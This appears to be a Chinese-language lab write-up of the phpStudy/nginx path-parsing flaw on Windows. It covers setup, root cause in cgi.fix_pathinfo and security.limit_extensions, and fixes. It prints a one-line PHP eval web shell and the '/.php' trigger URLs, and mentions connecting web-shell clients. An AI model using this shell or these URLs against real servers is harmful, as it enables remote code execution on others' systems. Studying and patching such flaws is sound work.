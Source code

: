 

## 一、环境搭建

去官网下载phpstudy版本8.1.0.7，安装过程中不能使用中文作为目录，然后安装nginx与php，运行网站。

## 二、验证漏洞

上传文件 info.txt到www目录，保证能够解析
```
<?php 
@eval($_GET["pass"]);
?>
```
访问127.0.0.1/info.txt看到文件存在
访问127.0.0.1/info.txt/.php?pass=phpinfo(); 看到info信息
访问127.0.0.1/info.txt/.php 连接菜刀
或上传冰蝎码.
访问127.0.0.1/shell.png/.php?pass=phpinfo();

## 三、原理分析

这个漏洞是nginx的配置，windows存在这个问题，linux不存在这个问题

1.由于nginx.conf的如下配置导致nginx把以'.php'结尾的文件交给fastcgi处理,为此可以构造http://ip/uploadfiles/test.png/.php (url结尾不一定是'.php',任何服务器端不存在的php文件均可,比如'a.php'),其中test.png是我们上传的包含PHP代码的照片文件。

2、但是fastcgi在处理'.php'文件时发现文件并不存在,这时php.ini配置文件中cgi.fix_pathinfo=1 发挥作用,这项配置用于修复路径,如果当前路径不存在则采用上层路径。为此这里交由fastcgi处理的文件就变成了'/test.png’。

3、最重要的一点是php-fpm.conf中的security.limit_extensions配置项限制了fastcgi解析文件的类型(即指定什么类型的文件当做代码解析),此项设置为空的时候才允许fastcgi将'.png'等文件当做代码解析。
在nginx默认配置中，有一个解析php的路由

```
       #location ~ \.php$ {
        #       include snippets/fastcgi-php.conf;
        #
        #       # With php7.0-cgi alone:
        #       fastcgi_pass 127.0.0.1:9000;
        #       # With php7.0-fpm:
        #       fastcgi_pass unix:/run/php/php7.0-fpm.sock;
        #}
```
## 四、修复
1、将php.ini文件中的cgi.fix_pathinfo的值设置为0,这样php再解析1.php/1.jpg这样的目录时,只要1.jpg不存在就会显示404页面


2、php-fpm.conf中的security.limit_extensions后面的值设置为.php
## 参考
http://wechat.doonsec.com/article/?id=1632d9b3b7f94ead41c575e12b1a3aff
